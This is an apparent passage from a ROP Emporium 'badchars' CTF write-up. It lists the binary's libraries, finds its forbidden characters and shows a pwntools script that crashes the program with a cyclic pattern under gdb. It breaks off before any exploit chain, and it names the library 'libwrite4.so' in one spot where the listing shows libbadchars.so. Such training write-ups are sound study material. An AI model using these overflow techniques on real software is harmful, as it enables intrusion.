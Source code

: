 ```
$ ldd badchars
        linux-vdso.so.1 (0x00007ffd06598000)
        libbadchars.so => ./libbadchars.so (0x00007f837a40f000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f837a230000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f837a613000)
```

## The Challenge Layout

This challenge came with a shared object file `libwrite4.so` which is linked at runtime:

```
badchars  flag.txt  libbadchars.so
```

## Satisfying the Criteria

Quickly running the program tells us about some bad characters:

```
$ ./badchars
badchars by ROP Emporium
x86_64

badchars are: 'x', 'g', 'a', '.'
> x
Thank you!
```

Let's see what happens when we try crashing the app with our typical cyclic pattern from the code below:

```python
from pwn import *

# Set the pwntools context
context.arch = 'amd64'
context.log_level = 'debug'

# Project constants
PROCESS = './badchars'
io = process(PROCESS)

# Debugging
gdbscript = ""
pid = gdb.attach(io, gdbscript=gdbscript)

io.clean()
io.sendline(cyclic(128))
io.interactive()
```

```
$ python3 exploit.py
[+] Starting local process './badchars' argv=[b'./badchars'] : pid 3116
[*] running in new terminal: /usr/bin/gdb -q  "./badchars" 3116
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/usr/bin/gdb -q  "./badchars" 3116']
[+] Waiting for debugger: Done
[DEBUG] Received 0x44 bytes:
    b'badchars by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b"badchars are: 'x', 'g', 'a', '.'\n"
    b'> '
[DEBUG] Sent 0x81 bytes:
```
